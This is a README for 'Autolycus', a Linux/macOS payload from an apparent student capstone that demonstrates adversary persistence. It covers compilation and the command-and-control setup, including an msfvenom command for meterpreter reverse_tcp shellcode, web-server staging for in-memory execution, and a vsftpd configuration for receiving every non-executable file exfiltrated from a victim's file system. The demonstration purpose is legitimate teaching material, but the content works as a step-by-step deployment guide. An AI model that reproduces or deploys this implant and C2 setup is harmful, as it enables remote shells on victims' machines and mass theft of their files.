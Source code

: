 # Linux/macOS Payload: Autolycus

### Source Code

* https://github.com/Nekrosis-ISS-Capstone/Linux-Payload

### Description

This is an example of a payload that can be used against a Linux based target in conjunction with the Nekrosis application. If Nekrosis is being used to demonstrate how an adversary could achieve persistence, this payload can be used to demonstrate the kind of code an adversary may deploy with their unauthorized access. This payload will call back to the C2 server once per hour to receive an instruction directive. Different instruction directives will execute different modules, providing support for fileless remote access as well as the exfiltration of all non-executable files on the victim's file system.

### Compilation

In the source code you must change all instances of "ADDRESS:PORT" with the appropriate information.

```shell [Command Line]
sudo apt install libcurl4-openssl-dev
gcc main.c -o main -s -lcurl -lpthread
```

### Configuring the C2 Server

The required C2 setup varies based on the instruction directive being used.

Supported instruction directives:
- EXEC (Execute a stub of shellcode in memory)
- COPY (Recursively exfiltrate all non executable files over FTP)

The following setup was successfully tested in Kali Linux. Both the web server and the VSFTPD server must be accessible by the target.

#### EXEC Directive:

1. Setting up the web server:

Creating the shellcode for remote access:
```shell [Command Line]
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ADDRESS LPORT=PORT -f raw -b "\x00" >> shellcode
```
Leaving the instruction directive:
```shell [Command Line]
echo -n "EXEC" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

#### COPY Directive:

1. Setting up the VSFTPD server:

Installing VSFTPD:
```shell [Command Line]
sudo apt update && sudo apt install vsftpd
```
Creating the dedicated user:
```shell [Command Line]
sudo useradd test && sudo passwd test
```
Creating their home directory (that will be used as the local_root directory for FTP):
```shell [Command Line]
sudo mkdir /home/test && sudo chown test:test /home/test
```
The /etc/vsftpd.conf file needs to be edited to contain the following lines:
```shell [Command Line]
write_enable=YES
listen_port=[PORT]
userlist_deny=NO
userlist_enable=YES
userlist_file=/etc/vsftpd.userlist
pasv_min_port=[PORT]
pasv_max_port=[PORT]
local_root=/home/test/
```
The userlist should contain the dedicated user:
```shell [Command Line]
sudo touch /etc/vsftpd.userlist && sudo echo "test" >> /etc/vsftpd.userlist
```
Reload the service for the changes to take effect:
```shell [Command Line]
sudo systemctl restart vsftpd
```
Lastly, if this server will be running on a machine that is publicly accessible via SSH it is recommended to add the following line to /etc/ssh/sshd_config:
```shell [Command Line]
DenyUsers test
```

2. Setting up the web server:

Adding the dedicated user's credentials and the instruction directive:
```shell [Command Line]
echo -n "username" >> username.txt
```
```shell [Command Line]
echo -n "password" >> password.txt
```
```shell [Command Line]
echo -n "COPY" >> instruction.txt
```
Serving the files for the payload to see:
```shell [Command Line]
python -m http.server 8080
```

With these servers properly configured and accessible by the target the payload will have what it needs to execute the COPY directive. It is highly encouraged not to deploy this payload over the public internet particularly if there may be sensitive information on the victim.

